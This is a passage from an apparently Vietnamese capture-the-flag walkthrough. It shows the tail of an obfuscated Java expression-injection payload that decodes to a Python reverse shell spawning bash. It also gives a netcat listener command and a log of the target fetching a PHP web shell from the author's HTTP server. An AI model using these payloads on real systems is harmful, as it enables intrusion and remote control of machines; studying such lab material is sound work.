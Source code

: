 ```python
g(46)).concat(T(java.lang.Character).toString(102)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(40)).concat(T(java.lang.Character).toString(41)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(41)).concat(T(java.lang.Character).toString(59)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(40)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(102)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(40)).concat(T(java.lang.Character).toString(41)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(41)).concat(T(java.lang.Character).toString(59)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(40)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(102)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(40)).concat(T(java.lang.Character).toString(41)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(41)).concat(T(java.lang.Character).toString(59)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(59)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(40)).concat(T(java.lang.Character).toString(34)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(34)).concat(T(java.lang.Character).toString(41)).concat(T(java.lang.Character).toString(39))).getInputStream())}
                                            
┌──(neo㉿kali)-[~]
└─$ 
```

Tạo listener trên máy remote: `nc - lnvp 2402`

Bây giờ thì sao chép đoạn code dài ngoằng phía trên vào phần command. Nhưng sau 1 thời gian loay hoay mãi tôi cũng không thể nào gọi được shell, kể cả đã upload thành công 1 file shell php lên server như thế này

```python
┌──(neo㉿kali)-[~]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.170 - - [31/Oct/2022 04:53:21] "GET /shell.php HTTP/1.1" 200 -
```
